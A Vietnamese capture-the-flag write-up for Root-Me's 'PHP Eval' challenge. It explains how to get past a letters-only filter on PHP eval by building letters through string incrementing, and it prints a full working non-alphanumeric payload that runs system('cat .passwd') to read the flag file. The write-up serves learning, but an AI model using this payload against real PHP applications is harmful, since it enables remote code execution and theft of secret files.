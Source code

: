 # PHP Eval

**Tên challenge:**  Non-alphanumeric PHP code

**Link challenge:** [Here](https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval)

**Tác giả challenge:** chmod

**Mục tiêu challenge:** Find a vulnerability in this service and exploit it. The flag is in .passwd file.

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, Website có giao diện khá đơn giản, chỉ có 1 tính năng Input duy nhất:

![alt text](./images/image.png)

Ngoài ra, ta còn được cung cấp Source Code như sau:
```
<html>
<head>
</head>
<body>
 
<h4> PHP Calc </h4>
 
<form action='index.php' method='post'>
    <input type='text' id='input' name='input' />
    <input type='submit' />
<?php
 
if (isset($_POST['input'])) {
    if(!preg_match('/[a-zA-Z`]/', $_POST['input'])){
        print '<fieldset><legend>Result</legend>';
        eval('print '.$_POST['input'].";");
        print '</fieldset>';
    }
    else
        echo "<p>Dangerous code detected</p>";
}
?>
</form>
</body>
</html>
```


Dựa vào Source Code, ta có thể xác định ngay lổ hổng nằm ở đoạn:
```
eval('print '.$_POST['input'].";");
```
**Giải thích:**
* Hàm `eval` trong PHP là một hàm đặc biệt cho phép thực thi mã PHP được truyền dưới dạng chuỗi.

**VD:**
```
$code = 'echo "Hello, World!";';
eval($code);  // Kết quả: Hello, World!
```

Thông thường đến đây, ta chỉ việc đưa vào input `1; system("cat .passwd")` thì đoạn code `eval` trong Source sẽ có dạng:
```
eval(" print 1; system("cat .passwd"); ")
```

Tuy nhiên, ta đã bị filter từ `[ a -> z ]` và `[ A -> Z ]` do đoạn `preg_match` sau xử lý:
```
if(!preg_match('/[a-zA-Z`]/', $_POST['input']))
```
=> Ta không thể inject input payload trên.

Vậy thì ta phải làm sao để thực thi được Command và đọc file `.passwd` nếu không thể nhập được chữ cái ?

**Trả lời:**
* Sau khi đọc và tìm hiểu thì tôi tìm ra tài liệu có thể giúp Bypass được điều này: [Link](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/)
* Cụ thể, ta sẽ sử dụng những ký tự như `$`, `_`, `;`, `.`,... thay cho các chữ cái.
* **VD:** Trong PHP, ta có: `$a = 'Z'` thì khi ta `$a++` => `$a` sẽ trở thành `AA` thay vì là `[` như trong ngôn ngữ C.
* Tương tự nếu: `$a = 'A'` thì khi ta `$a++` => `$a` sẽ thành `B`. Nó chỉ trở thành `AA` khi mà nó mang giá trị `Z` cuối cùng trong bảng chữ cái, khi đó nếu mình tăng tiến `++` 1 giá trị của nó lên thì nó sẽ trở thành `AA`, nếu tiếp tục `++` thì thành `AB`, cứ vậy nối tiếp.

Ví dụ cụ thể hơn ta có 1 đoạn code như sau:
```
<?php

$_=[];

$_=@"$_"; // $_='Array';

$_=$_['!'=='@']; // $_=$_[0];

$___=$_; // A

$__=$_;

$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;

$___.=$__; // AS


?>
```
<u>**Giải thích chi tiết:**</u>
* `$_=[]`: Dòng này dùng để khai báo biến `$_` có giá trị mảng `[]`
* `$_=@"$_"`: Dòng này dùng để biến giá trị mảng `[]` thành chữ `Array`, nghĩa là biến `$_` lúc bấy giờ sẽ có giá trị string là `Array` ( `$_ = "Array"` )
* `$_=$_['!'=='@']`: Dòng này để gán biến `$_` thành giá trị đầu tiên `A` trong chuỗi string `Array`. Nó giống như đoạn code sau đây
```
$mot = "Abc";
$mot = $mot[0]; // $mot = "A";
```
* Thì `['!'=='@']` trong đoạn code trên là so sánh `XOR`, vì 2 thằng khác nhau nên giá trị sẽ trả về 0. Thực ra thì ta cũng có thể để thẳng là `[0]` luôn.
* `$___=$_`: Vì bấy giờ biến `$_` đã mang giá trị `A` nên mình khởi tạo 1 biến mới `$___` để tiếp nhận giá trị của `$_`, nghĩa là lúc này cả 2 biến `$_` và `$___` đều mang giá trị `A`.
* `$__=$_`: Giống như trên, ta khởi tạo 1 biến mới `$__` và gán cho nó giá trị `A` của biến `$_`.
* `$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;`: Đoạn code này là lấy giá trị của biến vừa khởi tạo ở trên rồi tịnh tiến `++` nó 18 lần. Nghĩa là giá trị `A` lúc này được `++` 18 lần là thành `S` => `$__` = `S`
* `$___.=$__`: Đoạn code này là nối đoạn, nó giống với `$a += $b // $a = $a + $b`. Thay vì `+` thì chỗ này nối đoạn là dấu `.` thôi. `$___` mang giá trị `A`, nối đoạn với giá trị `S` của `$__` => `$___` lúc bấy giờ sẽ mang giá trị là `AS`

=> Chỉ cần nắm được phần giải thích trên là ta có thể tự tạo riêng payload của mình.

**B2:** Thử payload `1;SYSTEM(STRTOLOWER("CAT .PASSWD")))`
```
1;$_=[];
$_=@"$_"; 
$_=$_['!'=='@']; ;
$___=$_; 
$__ = $_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$___=$__; 
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$___.=$__; 
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$___.=$__; 
$__ = $_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$___.=$__; 
$__=$_;
++$__;++$__;++$__;++$__; 
$___.=$__; 
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$___.=$__;
$__=$_;

$_____ = '';
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;

$____='';
++$__;++$__;
$____.=$__;
$__=$_;
$____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$____.=$__;
$__=$_;

$______='.';
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$______.=$__;
$__=$_;
$______.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$______.=$__;
$______.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$______.=$__;
$__=$_;
++$__;++$__;++$__;
$______.=$__;
$__=$_;
$__________ = $____." ".$______ ;
$___($_____("$__________"))
```
Có thể input trực tiếp qua Website hoặc là dùng Burp-suite rồi URL encode để đảm bảo không xảy ra lỗi.

![alt text](./images/image-1.png)

=> Ta đã thành công đọc được file `.passwd`

**Lưu ý:** `1` không nằm trong file `.passwd` nhé. `1` là giá trị `1;` mà `eval()` đã print ra.

